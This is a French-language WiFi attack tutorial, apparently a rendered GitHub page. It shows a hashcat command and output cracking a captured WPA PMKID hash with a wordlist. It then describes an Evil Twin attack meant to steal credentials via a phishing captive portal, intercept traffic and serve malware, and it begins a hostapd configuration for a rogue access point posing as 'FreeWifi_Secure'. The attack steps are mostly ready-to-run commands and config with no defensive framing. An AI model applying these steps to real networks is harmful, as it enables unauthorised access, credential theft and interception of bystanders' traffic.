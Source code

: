 ### **Cracking PMKID avec hashcat**
```bash
# Crack PMKID avec hashcat (plus rapide qu'aircrack)
hashcat -m 16800 pmkid_hashes.txt /usr/share/wordlists/rockyou.txt

# PARAMÈTRES :
# -m 16800 = Mode PMKID WPA/WPA2
# pmkid_hashes.txt = Hash capturé
# rockyou.txt = Dictionnaire

# SORTIE SUCCÈS :
2582a8281bf9d96e5b5ad23b4a5e7a4e*112233445566*a0b1c2d3e4f5*424248532d3132333435363738:password123

Session..........: hashcat
Status...........: Cracked
Hash.Name........: WPA-PMKID-PBKDF2
Hash.Target......: 2582a8281bf9d96e5b5ad23b4a5e7a4e*112233445566*a0b1c2...3435363738
Time.Started.....: Sat Jan 20 14:45:12 2024 (1 min, 23 secs)
Time.Estimated...: Sat Jan 20 14:46:35 2024 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Speed.#1.........:    4567 H/s (8.92ms) @ Accel:64 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests

# PASSWORD TROUVÉ : password123
```

## 🕸️ Evil Twin et Rogue Access Points

### **Principe Evil Twin**
```bash
# EVIL TWIN = Faux point d'accès avec même nom que légitime

OBJECTIFS EVIL TWIN :
1. Voler credentials WiFi (phishing captive portal)
2. Intercepter trafic utilisateurs (MITM)
3. Servir malware via pages web
4. Collecter informations personnelles

TECHNIQUE :
1. Créer AP avec ESSID identique au légal
2. Puissance signal plus forte
3. Utilisateurs se connectent au faux
4. Captive portal demande "re-connexion"
5. Vol credentials + navigation piégée
```

### **Création Evil Twin avec hostapd**

#### **Configuration hostapd**
```bash
# ÉTAPE 1 : Créer fichier configuration
sudo nano /etc/hostapd/evil_twin.conf

# CONTENU FICHIER :
interface=wlan1
driver=nl80211
ssid=FreeWifi_Secure
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
```